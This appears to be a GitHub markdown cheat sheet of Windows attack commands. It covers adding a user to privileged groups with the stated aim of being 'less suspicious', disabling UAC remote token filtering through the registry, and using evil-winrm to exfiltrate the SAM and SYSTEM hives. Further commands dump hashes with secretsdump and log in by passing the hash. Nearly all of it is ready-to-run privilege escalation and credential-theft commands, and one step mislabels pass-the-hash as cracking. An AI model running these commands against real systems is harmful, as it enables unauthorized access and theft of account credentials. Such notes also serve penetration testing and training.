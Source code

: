 # 🌆  Windows / Commands

This documents is for windows

---

## 🧚‍♀️ Admin perm via group

- Add administrator group for a user\
`net localgroup administrators <USER> /add`

- Add B.O to get SAM content and be less supicious\
`net localgroup "Backup Operators" <USER> /add`

- Add user to allow RDP\
`net localgroup "Remote Management Users" <USER> /add`

---

## 🛸 UAC

- Desactivate the option in reg to use admin with rdp\
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

---

## 🦉 Evil WinRm

- Connect to a windows machine\
`evil-winrm -i <IP> -u <USER> -p <PASSWORD>`

- Download the sam file\
`reg save hklm\sam sam.bak` \
`reg save hklm\system system.bak` \
`download sam.bak` \
`download system.bak`

- Dump password hash\
`python3 secretsdump.py -sam sam.bak -system system.bak LOCAL`\
> [!IMPORTANT]
> Download the python [file](https://github.com/fin3ss3g0d/secretsdump.py/blob/main/secretsdump.py).

- Crack the hash\
`evil-winrm -i <IP> -u <USER> -H <HASH>`



---
